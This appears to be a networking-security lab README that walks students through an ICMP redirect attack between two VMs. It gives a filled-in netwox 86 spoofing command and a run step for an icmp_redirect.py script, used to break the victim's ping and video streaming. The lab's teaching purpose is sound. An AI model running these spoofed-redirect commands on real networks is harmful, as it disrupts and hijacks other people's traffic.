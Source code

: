 ## ICMP Redirect Attack

### Background

An ICMP redirect attack involves sending ICMP redirect messages to a victim machine. These messages instruct the victim to use a different gateway (the attacker's machine) for reaching a particular destination.

### Requirement

In this lab, you will disrupt a victim machine's connection to a video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM3 as the attacker. The 2 VMs reside in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 |  10.0.2.4     |  victim  |
| VM3 |  10.0.2.6     | attacker |

### Preparation steps:

<!--

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

-->

### Attack steps:

<!-- #### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:
-->

1: victim, open firefox, watch some youtube video.

2: attacker, impersonates the default gateway, keep sending ICMP redirect packets to the victim which instruct the victim to use a different gateway (the attacker's machine) for reaching its destination.  You can use this script to send the icmp redirect packets: [icmp_redirect](icmp_redirect.py), before you can run the script, change the following 4 lines to match with your settings.

```console
victim_ip = "10.0.2.4"
default_gateway_ip = "10.0.2.1"
attacker_ip = "10.0.2.6"
iface = "enp0s3"  # replace with your network interface name
```

**Note**: how to find the default gateway ip address in the victim VM? Run this command:

```console
$ ip route
default via 10.0.2.1 dev enp0s3 proto dhcp metric 100 
10.0.2.0/24 dev enp0s3 proto kernel scope link src 10.0.2.4 metric 100 
169.254.0.0/16 dev enp0s3 scope link metric 1000 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
```

In the above output, the ip address after the "default via" is the default gateway; here in this example, it is 10.0.2.1.

3. run the script:

```console
$ sudo python3 icmp_redirect.py
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking script):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
